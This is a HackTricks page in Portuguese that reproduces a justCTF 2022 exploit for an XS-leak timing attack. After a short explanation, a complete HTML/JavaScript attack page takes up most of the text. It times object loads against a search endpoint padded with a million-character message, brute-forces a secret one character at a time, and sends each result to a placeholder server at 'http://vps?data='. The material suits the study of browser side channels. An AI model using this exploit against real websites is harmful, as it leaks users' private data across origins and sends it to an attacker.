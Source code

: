 # performance.now + Forçar tarefa pesada

{{#include ../../banners/hacktricks-training.md}}

**Exploit retirado de [https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/](https://blog.huli.tw/2022/06/14/en/justctf-2022-xsleak-writeup/)**

Neste desafio, o usuário poderia enviar milhares de caracteres e, se a flag estivesse contida, os caracteres seriam enviados de volta para o bot. Assim, ao enviar uma grande quantidade de caracteres, o atacante poderia medir se a flag estava contida na string enviada ou não.

> [!WARNING]
> Inicialmente, eu não defini a largura e a altura do objeto, mas depois percebi que isso é importante porque o tamanho padrão é muito pequeno para fazer diferença no tempo de carregamento.
```html
<!DOCTYPE html>
<html>
<head> </head>
<body>
<img src="https://deelay.me/30000/https://example.com" />
<script>
fetch("https://deelay.me/30000/https://example.com")

function send(data) {
fetch("http://vps?data=" + encodeURIComponent(data)).catch((err) => 1)
}

function leak(char, callback) {
return new Promise((resolve) => {
let ss = "just_random_string"
let url =
`http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=` +
ss[Math.floor(Math.random() * ss.length)].repeat(1000000)
let start = performance.now()
let object = document.createElement("object")
object.width = "2000px"
object.height = "2000px"
object.data = url
object.onload = () => {
object.remove()
let end = performance.now()
resolve(end - start)
}
object.onerror = () => console.log("Error event triggered")
document.body.appendChild(object)
})
}

send("start")

let charset = "abcdefghijklmnopqrstuvwxyz_}".split("")
let flag = "justCTF{"

async function main() {
let found = 0
let notFound = 0
for (let i = 0; i < 3; i++) {
await leak("..")
}
for (let i = 0; i < 3; i++) {
found += await leak("justCTF")
}
for (let i = 0; i < 3; i++) {
notFound += await leak("NOT_FOUND123")
}

found /= 3
notFound /= 3

send("found flag:" + found)
send("not found flag:" + notFound)

let threshold = found - (found - notFound) / 2
send("threshold:" + threshold)

if (notFound > found) {
return
}

// exploit
while (true) {
if (flag[flag.length - 1] === "}") {
break
}
for (let char of charset) {
let trying = flag + char
let time = 0
for (let i = 0; i < 3; i++) {
time += await leak(trying)
}
time /= 3
send("char:" + trying + ",time:" + time)
if (time >= threshold) {
flag += char
send(flag)
break
}
}
}
}

main()
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
